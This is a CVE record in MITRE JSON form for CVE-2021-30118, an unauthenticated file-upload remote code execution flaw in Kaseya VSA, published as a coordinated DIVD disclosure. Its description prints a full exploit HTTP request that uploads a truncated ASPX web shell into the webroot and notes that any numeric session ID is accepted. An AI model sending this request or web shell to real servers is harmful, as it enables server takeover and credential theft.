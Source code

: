 ```yaml
---
layout: cve-json-40
discovered_by:
  - Wietse Boonstra
json: {
    "CVE_data_meta": {
        "ASSIGNER": "cve@mitre.org",
        "ID": "CVE-2021-30118",
        "STATE": "PUBLIC",
        "TITLE": "Unauthenticated Remote Code Execution in Kaseya VSA < v9.5.5"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "Kaseya VSA (On-premise and SaaS)",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.6"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "Kaseya"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra"
        },
        {
            "lang": "eng",
            "value": "Additional research by Frank Breedijk"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "An attacker can upload files with the privilege of the Web Server process for Kaseya VSA Unified Remote Monitoring & Management (RMM) 9.5.4.2149 and subsequently use these files to execute asp commands\n\nThe api /SystemTab/uploader.aspx is vulnerable to an unauthenticated arbitrary file upload leading to RCE.  An attacker can upload files with the privilege of the Web Server process and subsequently use these files to execute asp commands.\n\nDetailed description\n---\nGiven the following request:\n```\nPOST /SystemTab/uploader.aspx?Filename=shellz.aspx&PathData=C%3A%5CKaseya%5CWebPages%5C&__RequestValidationToken=ac1906a5-d511-47e3-8500-47cc4b0ec219&qqfile=shellz.aspx HTTP/1.1\nHost: 192.168.1.194\nCookie:  sessionId=92812726; %5F%5FRequestValidationToken=ac1906a5%2Dd511%2D47e3%2D8500%2D47cc4b0ec219\nContent-Length: 12\n\n<%@ Page Language=\"C#\" Debug=\"true\" validateRequest=\"false\" %>\n<%@ Import namespace=\"System.Web.UI.WebControls\" %>\n<%@ Import namespace=\"System.Diagnostics\" %>\n<%@ Import namespace=\"System.IO\" %>\n<%@ Import namespace=\"System\" %>\n<%@ Import namespace=\"System.Data\" %>\n<%@ Import namespace=\"System.Data.SqlClient\" %>\n<%@ Import namespace=\"System.Security.AccessControl\" %> \n<%@ Import namespace=\"System.Security.Principal\" %>\n<%@ Import namespace=\"System.Collections.Generic\" %> \n<%@ Import namespace=\"System.Collections\" %> \n \n<script runat=\"server\">\n \nprivate const string password = \"pass\";  // The password ( pass )\nprivate const string style = \"dark\";  // The style ( light / dark )\n \nprotected void Page_Load(object sender, EventArgs e)\n{\n\t//this.Remote(password);\n\tthis.Login(password);\n\tthis.Style(); \n\tthis.ServerInfo(); \n\t\n<snip>\n```\nThe attacker can control the name of the file written via the qqfile parameter and the location of the file written via the PathData parameter.\n\nEven though the call requires that a sessionId cookie is passed we have determined that the sessionId is not actually validated and any numeric value is accepted as valid.\n\nSecurity issues discovered\n---\n* a sessionId cookie is required by /SystemTab/uploader.aspx, but is not actually validated, allowing an attacker to bypass authentication\n* /SystemTab/uploader.aspx allows an attacker to create a file with arbitrary content in any place the webserver has write access\n* The web server process has write access to the webroot where the attacker can execute it by requesting the URL of the newly created file.\n\nImpact\n---\nThis arbitrary file upload allows an attacker to place files of his own choosing on any location on the hard drive of the server the webserver process has access to, including (but not limited to) the webroot. If the attacker uploads files with code to the webroot (e.g. aspx code) he can then execute this code in the context of the webserver to breach either the integrity, confidentiality, or availability of the system or to steal credentials of other users. In other words, this can lead to a full system compromise.\n"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "HIGH",
            "baseScore": 9.8,
            "baseSeverity": "CRITICAL",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "HIGH",
            "privilegesRequired": "NONE",
            "scope": "UNCHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-434 Unrestricted Upload of File with Dangerous Type"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/"
            },
            {
                "name": "https://csirt.divd.nl/CVE-2021-30118",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/CVE-2021-30118"
            },
            {
                "name": "https://csirt.divd.nl/DIVD-2021-00011",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/DIVD-2021-00011"
            },
            {
                "name": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019054377-9-5-5-Feature-Release-10-April-2021",
                "refsource": "CONFIRM",
                "url": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019054377-9-5-5-Feature-Release-10-April-2021"
            }
        ]
    },
    "source": {
        "advisory": "DIVD-2021-00011",
        "discovery": "UNKNOWN"
    }
}
---
```


